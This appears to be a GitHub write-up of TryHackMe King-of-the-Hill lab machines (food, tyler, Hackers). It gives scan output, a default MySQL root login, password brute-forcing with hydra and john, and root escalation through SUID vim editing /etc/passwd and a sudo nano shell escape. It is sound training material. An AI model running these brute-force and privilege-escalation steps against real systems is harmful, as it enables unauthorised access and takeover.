 # machine name for KOTH: food(linux)
First,do a basic nmap scan and then you would find details about the IP address.<br/>
```
#### Nmap 7.80 scan initiated Thu Jun 11 15:19:27 2020 as: nmap -sC -sV -oN nmap.txt 10.10.77.101
Nmap scan report for 10.10.77.101<br/>
Host is up (0.21s latency).<br/>
Not shown: 999 closed ports <br/>
PORT     STATE SERVICE VERSION <br/>
9999/tcp open  abyss? <br/>
| fingerprint-strings: <br/>
|   FourOhFourRequest: <br/>
|     HTTP/1.0 200 OK <br/>
|     Date: Thu, 11 Jun 2020 09:50:12 GMT <br/>
|     Content-Length: 4 <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|     king <br/>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: <br/>
|     HTTP/1.1 400 Bad Request <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|     Connection: close <br/>
|     Request <br/>
|   GetRequest, HTTPOptions: <br/>
|     HTTP/1.0 200 OK <br/>
|     Date: Thu, 11 Jun 2020 09:50:11 GMT <br/>
|     Content-Length: 4 <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|_    king <br/>
```
from the scan we got to know that there is a sql database running on.<br/>
with the help of command <br/>
mysql -u root -h ip of machine  -p <br/>
login to sql database with pass root <br/>
with the help of mysql database explore the tables.that will get the first flag and a user by the ssh credentials <br/>
after getting the shell now its time to get the root.<br/>
so use find command and search for the vulnerbility.<br/>
find / -perm -u=s -type f 2>/dev/null<br/>
from this scan you will find out the available options i found that "/usr/bin/vim.basic"<br/>
is available.so,what are you waiting for just get the password changed by<br/>
vim /etc/passwd<br/> //dont forget to encrypt your password while changing!
and change the passwd thats it then just login with root and your password.<br/>
 
<hr>
  
 # machine tyler(linux)


<hr>

From basic nmap scan we get to know that smbclient is open so get it into the smb client and get the flag and <br/>
alert txt<br>
Next do a dirsearch with tag -e html,txt and help of rockyou.txt<br/>
you will get an extension named betatest.when you open you will find a user check with which you will get the username.<br>
and from the alert.txt you would get a password so with the help of username and password do ssh login. <br/>
here you go, finnaly got your user so the next step is for root.<br/>
for getting root i used ./linpes.sh script which helped me to find out there is vulnerbility VIM so with help of vim<br/>
i had added permision for suddorfile letting narrator to get the root shell.<br/>
once you get the root Just defend your king.txt

# Hackers.
=> This machine is entairly based on Bruteforce.So comparitively with other machines it takes some time.

1> nmap -sC -p- 10.10.142.184

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open  abyss?
```
2> ftp has an Anonymous login.
from ftp we will get a note.

which says 
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
3> bruteforce the password of gcrawford ftp using hydra
```
hydra ftp://10.10.142.184 -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64
```
once you get the password login to ftp and you will find out the id_rsa key and business.txt.

4> As id_rsa key is password protected lets use ssh2john and bruteforce the hash you got
```
 python3 /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt
 ```
 ```
 john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
 ```
 5> once you get the password just login to the ssh connction.
 ```
 root@5h4rk:~/koth-hackers# ssh -i id_rsa gcrawford@10.10.142.184
Unauthorised access is a federal offense under the Computer Fraud and Abuse Act 1986
Enter passphrase for key 'id_rsa': 
Last login: Wed Apr 29 19:32:48 2020 from 192.168.170.1
gcrawford@gibson:~$ whoami
gcrawford
gcrawford@gibson:~$ ls
business.txt
gcrawford@gibson:~$ ls -lah
total 40K
drwxr-x--- 6 gcrawford gcrawford 4.0K Apr 30 04:25 .
drwxr-xr-x 6 root      root      4.0K Apr 29 22:05 ..
lrwxrwxrwx 1 gcrawford gcrawford    9 Apr 30 01:31 .bash_history -> /dev/null
-rw-r--r-- 1 gcrawford gcrawford  220 Apr 29 04:00 .bash_logout
-rw-r--r-- 1 gcrawford gcrawford 3.7K Apr 29 04:00 .bashrc
-r-------- 1 gcrawford gcrawford  252 Apr 30 04:25 business.txt
drwx------ 2 gcrawford gcrawford 4.0K Apr 29 17:05 .cache
drwx------ 3 gcrawford gcrawford 4.0K Apr 29 17:05 .gnupg
drwxrwxr-x 3 gcrawford gcrawford 4.0K Apr 29 20:53 .local
-rw-r--r-- 1 gcrawford gcrawford  807 Apr 29 04:00 .profile
drwx------ 2 gcrawford gcrawford 4.0K May  9 21:10 .ssh
gcrawford@gibson:~$ sudo -l
[sudo] password for gcrawford:        
Matching Defaults entries for gcrawford on gibson:
    env_reset, pwfeedback, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gcrawford may run the following commands on gibson:
    (root) /bin/nano /home/gcrawford/business.txt
    ```

6> Time to root the machine! 
as we can see that we can run nano as root. from gtfobins there is cheat code:-
use:-
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
finally rooted the machine!



